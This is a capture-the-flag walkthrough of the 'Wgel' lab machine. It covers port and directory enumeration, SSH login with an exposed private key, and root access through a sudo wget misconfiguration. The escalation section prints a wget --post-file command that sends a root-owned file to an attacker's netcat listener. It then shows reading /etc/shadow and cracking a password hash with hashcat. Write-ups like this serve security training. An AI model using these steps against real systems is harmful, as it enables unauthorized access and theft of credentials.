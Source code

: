 # Wgel CTF

<img src="wgel.png" alt="wgel" width=200/>

## Enumeration

### nmap
```
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 94:96:1b:66:80:1b:76:48:68:2d:14:b5:9a:01:aa:aa (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCpgV7/18RfM9BJUBOcZI/eIARrxAgEeD062pw9L24Ulo5LbBeuFIv7hfRWE/kWUWdqHf082nfWKImTAHVMCeJudQbKtL1SBJYwdNo6QCQyHkHXslVb9CV1Ck3wgcje8zLbrml7OYpwBlumLVo2StfonQUKjfsKHhR+idd3/P5V3abActQLU8zB0a4m3TbsrZ9Hhs/QIjgsEdPsQEjCzvPHhTQCEywIpd/GGDXqfNPB0Yl/dQghTALyvf71EtmaX/fsPYTiCGDQAOYy3RvOitHQCf4XVvqEsgzLnUbqISGugF8ajO5iiY2GiZUUWVn4MVV1jVhfQ0kC3ybNrQvaVcXd
|   256 18:f7:10:cc:5f:40:f6:cf:92:f8:69:16:e2:48:f4:38 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBDCxodQaK+2npyk3RZ1Z6S88i6lZp2kVWS6/f955mcgkYRrV1IMAVQ+jRd5sOKvoK8rflUPajKc9vY5Yhk2mPj8=
|   256 b9:0b:97:2e:45:9b:f3:2a:4b:11:c7:83:10:33:e0:ce (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJhXt+ZEjzJRbb2rVnXOzdp5kDKb11LfddnkcyURkYke
80/tcp open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

### ffuf
```
.hta                    [Status: 403, Size: 277, Words: 20, Lines: 10]
.htaccess               [Status: 403, Size: 277, Words: 20, Lines: 10]
.htpasswd               [Status: 403, Size: 277, Words: 20, Lines: 10]
index.html              [Status: 200, Size: 11374, Words: 3512, Lines: 379]
server-status           [Status: 403, Size: 277, Words: 20, Lines: 10]
sitemap                 [Status: 301, Size: 314, Words: 20, Lines: 10]


/sitemap

.ssh                    [Status: 301, Size: 319, Words: 20, Lines: 10]
css                     [Status: 301, Size: 318, Words: 20, Lines: 10]
fonts                   [Status: 301, Size: 320, Words: 20, Lines: 10]
images                  [Status: 301, Size: 321, Words: 20, Lines: 10]
js                      [Status: 301, Size: 317, Words: 20, Lines: 10]
```

visit `sitemap` directory and get to unapp template page

we fuzz again and in `.ssh` dir you have an `id_rsa` key

we know what to do

```
└──╼ $python2 /usr/share/john/ssh2john.py -w=/usr/share/wordlists/rockyou.txt id_rsa > id_john
id_rsa has no password!
```

wait what? I don't even know who to ssh as...let's go back

folks you remember how we insist all the time on ALWAYS checking source code?

It was in `/index.html`...yes that default index page for apache servers

```
        <pre>
/etc/apache2/
|-- apache2.conf
|       `--  ports.conf
|-- mods-enabled
|       |-- *.load
|       `-- *.conf
|-- conf-enabled
|       `-- *.conf
|-- sites-enabled
|       `-- *.conf


 <!-- Jessie don't forget to udate the webiste -->
          </pre>

```

Now we ssh as `jessie`...Don't forget to fix permissions on the key

```
└──╼ $chmod 600 id_rsa

└──╼ $ssh jessie@10.10.92.232 -i id_rsa
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-45-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


8 packages can be updated.
8 updates are security updates.

jessie@CorpOne:~$ 
```

```
jessie@CorpOne:~/Documents$ cat user_flag.txt
jessie_flag_suddenly_appears
```
## Privilege Escalation

```
jessie@CorpOne:~/Documents$ sudo -l
Matching Defaults entries for jessie on CorpOne:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jessie may run the following commands on CorpOne:
    (ALL : ALL) ALL
    (root) NOPASSWD: /usr/bin/wget
```

wget unh? sounds easy

Notice how we could probably just `su` to root if we had jessie's sudo password

ok gtfobins say we can download root files...so if the root flag is in the same format as
user flag we get `/root/root_flag.txt`

You can use `find` to confirm that

set a netcat listener on your side

```
jessie@CorpOne:~$ sudo wget --post-file=/root/root_flag.txt 10.8.226.203:2311
--2021-11-27 15:27:02--  http://10.8.226.203:2311/
Connecting to 10.8.226.203:2311... connected.
HTTP request sent, awaiting response... 
```

```
└──╼ $nc -lnvp 2311
listening on [any] 2311 ...
connect to [10.0.2.15] from (UNKNOWN) [10.0.2.2] 58212
POST / HTTP/1.1
User-Agent: Wget/1.17.1 (linux-gnu)
Accept: */*
Accept-Encoding: identity
Host: 10.8.226.203:2311
Connection: Keep-Alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 33

root_flag_goes_here
```

And we got root flag! at this point we could just call it a day...

But there is always another possibility

if we can use `wget` to read files we might as well read interresting ones

`/etc/shadow`
```
...
kernoops:*:17954:0:99999:7:::
pulse:*:17954:0:99999:7:::
rtkit:*:17954:0:99999:7:::
saned:*:17954:0:99999:7:::
usbmux:*:17954:0:99999:7:::
jessie:$6$0wv9XLy.$HxqSdXgk7JJ6n9oZ9Z52qxuGCdFqp0qI/9X.a4VRJt860njSusSuQ663bXfIV7y.ywZxeOinj4Mckj8/uvA7U.:18195:0:99999:7:::
sshd:*:18195:0:99999:7:::
```
ha! jessie's hash! those are crackable!

looks like sha-512crypt 

```
└──╼ $hashcat -m 1800 '$6$0wv9XLy.$HxqSdXgk7JJ6n9oZ9Z52qxuGCdFqp0qI/9X.a4VRJt860njSusSuQ663bXfIV7y.ywZxeOinj4Mckj8/uvA7U.' /usr/share/wordlists/rockyou.txt
hashcat (v6.1.1) starting...

```
well its gonna take too long and I don't have that patience now

But feel free to explore. What I liked the most about this room was the multiple
ways to escalate

By example there is also a possibilty to add a new superuser to `/etc/passswd`

You download, modify and upload the file...

If you are curious enough you will find another way




























